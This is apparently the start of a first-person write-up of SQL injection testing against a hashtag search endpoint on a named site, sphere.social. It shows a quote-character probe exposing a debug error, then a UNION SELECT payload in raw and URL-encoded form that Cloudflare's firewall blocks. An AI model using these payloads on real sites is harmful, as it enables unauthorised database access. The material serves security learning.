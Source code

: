 # Analyzing Target
Given the following URL
```
https://sphere.social/hello/search/hashtags/1
```
We know that "1" is the parameter which may involve query to database. After several times trying to find the injection pattern, I found an error at this endpoint.

```
https://sphere.social/hello/search/hashtags/"
```

The error says (the developer seems did not turn off the debug flag, so it is easier to see what query is being executed):
![error](./001.png)

The query looks so easily to be bypassed, so I tried the following payload
```
" and 0 union select 1,2,3,4,5,6 -- -+
```

The endpoint become
```
https://sphere.social/hello/search/hashtags/%22+and+0+union+select+1%2C2%2C3%2C4%2C5%2C6+--+-%2B
```

It is then not that easy, Cloudflare's firewall blocked my attempt and showed me this page:
![error](./002.png)